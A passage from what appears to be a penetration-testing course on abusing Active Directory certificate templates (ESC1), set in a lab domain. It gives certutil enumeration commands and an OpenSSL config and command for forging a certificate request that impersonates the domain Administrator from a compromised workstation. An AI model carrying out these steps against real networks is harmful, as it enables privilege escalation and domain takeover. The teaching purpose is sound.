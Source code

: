 We will not be doing this manual exploitation for every exploit I'll be showing you in this course (as that would get redundant and annoying very fast), but I encourage you to experiment with creating and sending your own CSRs on your own initiative.

#### Manual ####

Firstly, we can use certutil.exe to enumerate the certificate authority and get detailed information on its templates with the following commands:
	- Get information on the available certificate authorities and their published templates: 
```PowerShell
certutil.exe -TCAInfo
```

	- Get detailed information on all certificate templates available (or a single template if you specify a template name): 
```
certutil.exe -v -dstemplate [template-name]
```

The latter command will produce a lot of output if you don't specify a single template, but careful perusal of it will reveal if one of the templates has the combination of configurations we are looking for, as seen below:

![[certutilEnum.PNG|center]]

The above snippet shows a template fittingly called "ESC1" which allows the "Domain Users" group to enroll as well as allows them to specify arbitrary SANs. The rest of the output (not shown here) also informs us that no manager approval or authorized signatures are required and that the "Client Authentication" EKU is specified. Great!

Switch over to your Kali attack machine and create the following config file (admin.config) which will define your CSR:

```
[ req ]
default_bits = 2048
prompt = no
req_extensions = user
distinguished_name = dn

[ dn ]
CN = Administrator

[ user ]
subjectAltName = otherName:msUPN;UTF8:administrator@InnsmouthNet.local
```

Ensure that the CN and subjectAltName are set appropriately to the high privilege user you would like to impersonate. The "default_bits" should be set to the `msPKI-Minimal-Key-Size` property of the template you are targeting.

Use OpenSSL to generate your CSR.

`openssl req -config admin.config -subj '/DC=local/DC=InnsmouthNet/CN=Users/CN=Administrator' -new -nodes -sha256 -out admin.req -keyout admin.key`

Then, transfer `admin.req` to your compromised workstation and submit the request.
